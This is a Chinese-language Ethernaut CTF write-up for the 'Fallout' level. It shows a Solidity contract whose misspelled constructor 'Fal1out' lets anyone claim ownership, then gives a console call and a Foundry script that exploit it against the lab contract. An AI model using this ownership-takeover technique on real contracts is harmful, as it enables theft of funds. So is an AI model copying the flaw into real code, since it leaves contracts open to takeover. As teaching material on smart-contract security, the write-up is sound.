 # Ethernaut CTF Writeup

## Level 2 Fallout

> 題目: https://ethernaut.openzeppelin.com/level/0x4209f564b6fDB63B34866CEa4B43BF333BcAAAD9

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

過關條件: 

- 獲得合約的所有權

解法：

- 這個合約並沒有 constructor (應該要是一個名為 `Fallout` 的函數，但只見一個 `Fal1out` 函數)，這可能發生在改變合約名稱時沒有改變 constructor 名稱，或純粹打錯字
- 這使任何人都可以去調用 `Fal1out` 函數，取得合約所有權
- PoC (console) `contract.Fal1out()`
- PoC (foundry) - level2.s.sol

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import {Fallout} from "../src/level2/Fallout.sol";

contract PwnFallout is Script {
    Fallout target = Fallout(payable(0x4FB940bD982b5Fd6888FB3C442aF18C2A514E44a));
    
    function run() public {
        vm.startBroadcast();
        console.log("Current Owner is: ", target.owner());
        
        // get the owner
        target.Fal1out();

        console.log("Current Owner is: ", target.owner());
        vm.stopBroadcast();
    }
}
```